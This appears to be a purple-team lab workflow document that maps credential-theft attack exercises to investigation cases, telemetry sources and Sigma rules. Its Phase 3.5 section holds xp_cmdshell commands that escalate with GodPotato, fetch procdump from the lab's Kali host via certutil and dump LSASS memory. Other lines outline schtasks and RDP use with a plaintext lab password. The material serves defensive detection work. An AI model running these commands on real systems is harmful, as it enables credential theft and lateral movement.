

# DFIR-Nexus Pioneer Workflow — Campaign ↔ Investigation Bridge

> **Purpose:** Run attack exercises (`CAMPAIGNS.md`) and DFIR investigations (`tools/dfir-nexus/`) in parallel. Each row links live lab telemetry to a DFIR-Nexus case, `tracker.md` PRIMARY source, and (later) Sigma rules.
>
> **Attack narrative:** [`CAMPAIGNS.md`](CAMPAIGNS.md) · **Playbook refs:** [`CAMPAIGNS-METADATA.md`](CAMPAIGNS-METADATA.md) · **Research backlog:** [`Campaign_suggestions.md`](Campaign_suggestions.md)
>
> **DFIR tool:** [`tools/dfir-nexus/`](../tools/dfir-nexus/) · **B.0 docs:** [`tools/dfir-nexus/docs/B0-PATHFINDER.md`](../tools/dfir-nexus/docs/B0-PATHFINDER.md) · **Roadmap:** `docs/internal/integrations/dfir-nexus-source-assessment-3-roadmap.md`
>
> **Telemetry log:** `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md` (internal)

**Status:** Active — Phase 3.5 in progress. **B.0 Pathfinder complete** (gateway, portal, Plaso, SigmaHQ).

---

## B.0 services (optional alongside Pioneer loop)

| Service | Command | Port | Use with Pioneer |
|:--------|:--------|:-----|:-----------------|
| MCP server | `dfir-nexus serve` | stdio | Manual/agentic ingest + cases |
| HTTP gateway | `dfir-nexus gateway --token SECRET` | 4623 | Aggregate MCP backends for agents |
| Examiner Portal | `DFIR_NEXUS_PORTAL_PASSWORD=x dfir-nexus portal` | 4625 | Review DRAFT findings from 3.5 exercises |
| Velociraptor MCP | `python -m dfir_nexus.integration.velociraptor_mcp_server` | stdio | Endpoint collection on mbr01 |

After each 3.5 branch: open Portal → **Findings** / **TODOs** tab → approve DRAFT via MCP or Portal queue.

---

## The Pioneer loop

One closed loop per exercise. Manual workflow first; agentic (`case_run_agents`) after exports are proven.



| Step | Owner | Output |
|:-----|:------|:-------|
| 1. Attack | Red / campaign | Technique executed on lab VM |
| 2. Export | Analyst | JSON/NDJSON files + UTC time window noted |
| 3. Ingest | DFIR-Nexus | Normalized artifacts in case store |
| 4. Correlate | DFIR-Nexus | Shared host/user/MITRE groups |
| 5. Case | DFIR-Nexus | DRAFT findings → human approve → HMAC audit chain |
| 6. Track | Plan 1 | `tracker.md` PRIMARY + DFIR case ID + export paths |

---

## Lab endpoints (export sources)

| Source | Host | Path / UI | DFIR-Nexus `source_name` |
|:-------|:-----|:----------|:-------------------------|
| Elastic / Kibana | `192.168.77.50` | `:5601` Discover → Share → CSV/JSON, or Dev Tools `_search` | `elastic` (`ArtifactSource.ELASTIC`) |
| WinSec / Sysmon / Endpoint | via Fleet on mbr01 | `logs-winlog.security-*`, `logs-endpoint.events.*` | `elastic` |
| Suricata | `192.168.77.55` (monitor) | `/var/log/suricata/eve.json` | `suricata` |
| Zeek | monitor | `/opt/zeek/logs/current/*.log` | `zeek` |
| Hayabusa (optional) | Kali / provisioning | CSV timeline after EVTX pull | `hayabusa` |

**Attack VM (Phase 3 spine):** `mbr01` `192.168.77.22` · **Kali:** `192.168.77.60` · **Root DC:** `dc01` `192.168.77.10`

---

## DFIR-Nexus setup (provisioning / Kali)

```bash
cd /path/to/CADRE/tools/dfir-nexus
pip install -e ".[dev]"

# Verify toolchain
python smoke_test.py

# Optional: MCP server for IDE agents
python -m dfir_nexus.server
```

Evidence bundle directory (convention for this workflow):

```text
~/cadre-evidence/<phase>-<branch>-<YYYYMMDD>/
  elastic-mbr01-<window>.json
  suricata-eve-<window>.json   # optional
  notes.txt                    # UTC start/end, attack command hash
```

---

## Manual workflow (per exercise)

```python
from pathlib import Path
from dfir_nexus.ingest import get_registry, ArtifactSource
from dfir_nexus.case import CaseManager, ApprovalState, FindingSeverity
from dfir_nexus.analysis import CorrelationEngine
from dfir_nexus.polish import generate_sigma_for_techniques

bundle = Path.home() / "cadre-evidence" / "3.5F-20260605"

# 1 — Ingest
reg = get_registry()
for path, src in [
    (bundle / "elastic-mbr01.json", ArtifactSource.ELASTIC),
    (bundle / "suricata-eve.json", ArtifactSource.SURICATA),
]:
    if path.exists():
        reg.import_path(path, source=src)

# 2 — Correlate (10-minute window around attack)
# artifacts = ...  # from ingest store / ingest_search MCP tool
# CorrelationEngine(time_window_seconds=600).correlate(artifacts)

# 3 — Case + DRAFT finding
mgr = CaseManager()
case = mgr.create_case(
    name="CADRE-3.5F — LSASS dump on mbr01",
    description="Branch 3.5F after GodPotato SYSTEM; procdump on lsass.exe",
    severity=FindingSeverity.HIGH,
)
finding = mgr.add_finding(
    case_id=case.id,
    title="LSASS credential dump (T1003.001)",
    technique_ids=["T1003.001"],
    severity=FindingSeverity.CRITICAL,
    description="procdump -ma lsass.exe; expect Sysmon 10 / Endpoint process access",
    metadata={"host": "mbr01.cadre.local", "user": "SYSTEM"},
    initial_state=ApprovalState.DRAFT,
)

# 4 — Sigma stub (Plan 1 seed)
rules = generate_sigma_for_techniques(["T1003.001"])

# 5 — Approve after analyst review (set case password once, then approve)
# mgr.set_case_approval_password(case.id, password="...")
# mgr.approve_finding(finding_id=finding.id, password="...", approved_by="examiner")
```

**Agentic pass (optional):** MCP tool `case_run_agents` with same ingested artifacts → six LangGraph agents → `interrupt()` for DRAFT approval. Use after manual path works once.

---

## Tracker columns (add to each `tracker.md` row)

| Column | Example |
|:-------|:--------|
| `campaign_ref` | `3.5F` |
| `wt_id` | — (spine) or `WT082` |
| `attack_utc` | `2026-06-05T14:22:00Z` |
| `host` | `mbr01` |
| `user` | `SYSTEM` / `analyst_cloud` |
| `primary_source` | `Endpoint.process` / `WinSec` / `Suricata` |
| `corroboration` | `Sysmon`, `Zeek.kerberos`, … |
| `dfir_case_id` | `case-abc123` |
| `evidence_bundle` | `~/cadre-evidence/3.5F-20260605/` |
| `sigma_template` | `T1003.001` (DFIR-Nexus built-in) |
| `status` | `⏳` / `✅` / `❌` |

---

## Campaign spine — DFIR mapping (Phases 0–3)

Verified live from Kali; run Pioneer loop when re-testing or filling tracker gaps.

| Phase | Campaign ref | MITRE | Primary telemetry | DFIR-Nexus Sigma | Notes |
|:------|:-------------|:------|:------------------|:-----------------|:------|
| 0 | Recon Kerberos enum | T1087.002 | Zeek `kerberos.log` | — | Network-only; Suricata ET Kerberos |
| 1 | WT003 AS-REP | T1558.004 | WinSec 4768, Zeek, Suricata | — | `intern_blue` cred |
| 2 | WT002 Kerberoast ACE#18 | T1558.003 | WinSec 4769, Zeek | — | `svc_mssql` + `analyst_t1` |
| 3 | WT043 SQL → xp_cmdshell | T1505.001, T1059.001 | WinSec, Sysmon 1, Endpoint | `T1059.001` | GodPotato → SYSTEM |
| 3 alt | LOLBAS / UACME ⏳ | varies | Endpoint.process | per technique | See CAMPAIGNS Phase 3 alt |

**Export tip (Phases 1–3):** Filter Elastic on `host.name: mbr01` or `winlog.computer_name`, and `user.name` / `event.code` for Kerberos/SQL events. Include ±5 min around attack UTC.

---

## Phase 3.5 — Credential theft from SYSTEM (active)

**Context:** SYSTEM on `mbr01` via Phase 3. Target: `CADRE\analyst_cloud` (`Cl0ud_An@lyst!`) in **cadre.local** (root domain — not in child-domain BloodHound). Auto-logon ON; LSASS PPL OFF (`04-vulnerabilities.yml`).

**Goal:** Domain creds for SharpHound / Phase 4 BloodHound as `analyst_cloud`.

**Campaign detail:** [`CAMPAIGNS.md` § Branch 3.5](CAMPAIGNS.md#branch-35--credential-theft-from-system)

**Recommended execution order:** `3.5F` → `3.5A` → `3.5G` → `3.5H` → `3.5B` → `3.5C` → `3.5D` → `3.5E` → optional `3.5J`–`3.5M`

### 3.5 branch ↔ DFIR-Nexus matrix

| Branch | Technique | MITRE | Status | Expected PRIMARY | Corroboration | Ingest focus | Sigma template |
|:-------|:----------|:------|:-------|:-----------------|:--------------|:-------------|:---------------|
| **3.5F** | LSASS dump (procdump) | T1003.001 | ⏳ | Endpoint `process` / Sysmon 10 | WinSec 4656, file create `.dmp` | Elastic Endpoint + Sysmon | `T1003.001` |
| **3.5A** | Winlogon registry | T1552.002 | ⏳ | Sysmon 12/13 registry | WinSec 4624 on cred use | Elastic registry events | — (misconfig; custom cadre-*) |
| **3.5G** | Nemesis DPAPI | T1555 | ⏳ | Endpoint file + process | Masterkey file access | Elastic file/process | — |
| **3.5H** | ctfmon memory | T1003 | ⏳ | Sysmon 10 on `ctfmon.exe` | procdump file | Elastic | `T1003.001` (variant) |
| **3.5B** | schtasks as user | T1053.005 | ⏳ | WinSec 4698/4699 | 4624 `analyst_cloud`, Sysmon 1 | WinSec + Endpoint | `T1053.005` |
| **3.5B†** | Invisible task (SD delete) | T1053.005 | ⏳ | Sysmon 12/13 TaskCache | Task still runs | Registry events | `T1053.005` + custom |
| **3.5C** | RDP Type 10 | T1021.001 | ⏳ | WinSec 4624 Type 10 | Sysmon 3 `:3389`, Zeek | WinSec + conn | `T1021.001` |
| **3.5D** | File detonation H | WT063–068 | ⏳ | Endpoint process/file | Zeek http if pull from Kali | Multi-source | per WT |
| **3.5E** | Startup folder | T1547.001 | ⏳ | Sysmon 11 + logon 4624 | 4624 Type 2/11 | Endpoint file | `T1547.001` |
| **3.5I** | Token impersonation | T1134 | ❌ | — | Error 1346 | Negative test — log in tracker | — |
| **3.5J** | WMI subscription | T1546.003 | ⏳ | Sysmon 19/20/21 | — | WinSec/Sysmon | `T1546.013` |
| **3.5K** | WerFault LSASS | T1003.001 | ⏳ | Sysmon 1 WerFault | Compare vs 3.5F | Endpoint | `T1003.001` |
| **3.5L** | LAPS read | T1552.004 | ⏳ | WinSec 4662 LDAP | — | WinSec | — |
| **3.5M** | AAD Connect DPAPI | T1555 | ⏳ | dc01 Endpoint | Cloud sign-in (later) | dc01 export | — |
| **3.5N** | UnCanny LPE | T1068 | 🔬 | deferred | See Campaign_suggestions Track G | — | — |

### 3.5F — LSASS dump (PRIMARY attack path)

**Attack (from SQL as `analyst_t1` on mbr01):**

```sql
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c certutil -urlcache -split -f http://192.168.77.60:8080/procdump.exe C:\Users\Public\procdump.exe"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c C:\Users\Public\procdump.exe -accepteula -ma lsass.exe C:\Users\Public\ls.dmp"';
-- Fallback: schtasks /ru SYSTEM (see CAMPAIGNS.md)
```

**DFIR finding (draft):**

| Field | Value |
|:------|:------|
| Title | LSASS memory dump via procdump |
| `technique_id` | `T1003.001` |
| Host | `mbr01.cadre.local` |
| IoCs | `procdump.exe`, path `C:\Users\Public\ls.dmp`, target `lsass.exe` |
| VQL hunt | `analyze_generate_hunt("T1003.001")` |

**Elastic export (Kibana Dev Tools example):**

```json
GET logs-endpoint.events.process-*/_search
{
  "size": 500,
  "query": {
    "bool": {
      "filter": [
        { "range": { "@timestamp": { "gte": "now-15m", "lte": "now" } } },
        { "term": { "host.name": "mbr01" } },
        { "bool": { "should": [
          { "wildcard": { "process.name": "*procdump*" } },
          { "term": { "process.Ext.target.process.name": "lsass.exe" } }
        ]}}
      ]
    }
  }
}
```

Save `_source` hits as `elastic-mbr01.json` in the evidence bundle.

---

### 3.5A — Winlogon registry (BACKUP)

**Attack:** `reg query HKLM\...\Winlogon` for `DefaultUserName` / `DefaultPassword` via GodPotato.

**DFIR finding:**

| Field | Value |
|:------|:------|
| `technique_id` | `T1552.002` |
| Severity | high (misconfiguration) |
| IoCs | Registry path `...\Winlogon`, values `analyst_cloud`, plaintext password |

**Note:** Classify as **misconfiguration discovery**, not malware. Valuable for purple-team reporting.

---

### 3.5B / 3.5C — Post-credential (after 3.5F or 3.5A)

Once password known (`CADRE\analyst_cloud:Cl0ud_An@lyst!`):

- **3.5B:** `schtasks /create /ru CADRE\analyst_cloud /rp ...` → findings `T1053.005`
- **3.5C:** `xfreerdp /v:192.168.77.22 /u:analyst_cloud ...` → findings `T1021.001`, logon type 10

These validate **credential use**, not theft — run after a successful 3.5F or 3.5A.

---

### 3.5I — Negative path (documented failure)

Token impersonation from session 0 → session 1 failed (error 1346). Still run Pioneer loop:

- Record **negative result** in tracker (`status: ❌`)
- DFIR case optional: finding "Attempted token theft — no logon session" with technique `T1134`
- Confirms Server 2025 session isolation; prefer 3.5F over token path

---

## Exercise tracker (fill as you run)

| campaign_ref | attack_utc | primary_source | dfir_case_id | evidence_bundle | tracker_row | status | notes |
|:-------------|:-----------|:---------------|:-------------|:------------------|:------------|:-------|:------|
| P1-WT003 | | | | | | ⏳ | AS-REP intern_blue |
| P2-WT002 | | | | | | ⏳ | Kerberoast via ACE#18 |
| P3-WT043 | | | | | | ⏳ | xp_cmdshell + GodPotato |
| 3.5F | | | | | | ⏳ | LSASS procdump |
| 3.5A | | | | | | ⏳ | Winlogon registry |
| 3.5I | | | | | | ❌ | Token impersonation fail |
| 3.5B | | | | | | ⏳ | schtasks as analyst_cloud |
| 3.5C | | | | | | ⏳ | RDP Type 10 |
| 3.5G | | | | | | ⏳ | Nemesis DPAPI |
| 3.5H | | | | | | ⏳ | ctfmon dump |
| 3.5J | | | | | | ⏳ | WMI persistence |
| 3.5K | | | | | | ⏳ | WerFault LSASS |

---

## Future phases (placeholder)

Add sections here when campaign testing reaches each phase. Do not block 3.5 on B.0 Portal/Gateway.

| Phase | Campaign | DFIR focus |
|:------|:---------|:-----------|
| 4 | BloodHound as `analyst_cloud` | Discovery telemetry; SharpHound process chains |
| 5 | Coercion + delegation | Suricata `cadre-coercion.rules`, Zeek `dce_rpc` |
| 6 | DCSync WT009 | WinSec 4662, Zeek, Suricata SID 1000002 |
| E | WT069–081 network | Multi-source `analyze_correlate` (STUDY-GUIDE §11.3) |
| F | Supply-chain | `cadre-supplychain` Suricata + Zeek http |

---

## Related docs

| Doc | Role |
|:----|:-----|
| [`CAMPAIGNS.md`](CAMPAIGNS.md) | Attack narrative and commands |
| [`Campaign_suggestions.md`](Campaign_suggestions.md) | Research → campaign promotion |
| [`tools/dfir-nexus/docs/STUDY-GUIDE.md`](../tools/dfir-nexus/docs/STUDY-GUIDE.md) | Generic DFIR-Nexus workflows §11 |
| [`docs/forensic-workflow.md`](../docs/forensic-workflow.md) | Lab forensic tooling overview |
| `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md` | PRIMARY source matrix (Plan 1) |

---

*Last updated: 2026-06-05*
